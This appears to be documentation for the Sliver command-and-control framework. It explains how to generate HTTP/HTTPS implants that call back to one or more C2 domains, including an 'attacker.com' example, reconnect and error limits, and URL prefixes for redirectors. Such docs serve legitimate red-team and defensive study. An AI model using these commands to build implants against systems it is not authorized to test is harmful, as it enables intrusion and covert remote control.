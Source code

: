 Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details).

## Generate the Implant

Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:

#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

#### Multiple Domains

You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connect to each domain you specified in order. Subsequent attempts are made based on the `--reconnect` argument (default 60 seconds). If no attempts are successful, the implant will loop across all of the domains until `--max-errors` (default 1000) is reached, at which point the implant will terminate execution:

```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### URL Prefixes and Other Options

Some additional options may be passed to the `--http` C2 flag such as URL path prefixes. Sliver's C2 request URLs are randomly generated as described below, however the operator may specify a path to prepend to every request's path, this can be useful when leveraging HTTP re-directors, etc. To add a URL prefix simply add a path to the domain as shown below:

```
sliver > generate --http example.com/foo/bar

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

This implant will now prepend `/foo/bar` to all generated URLs for `example.com`. You may specify different path prefixes for different domains if you so choose.
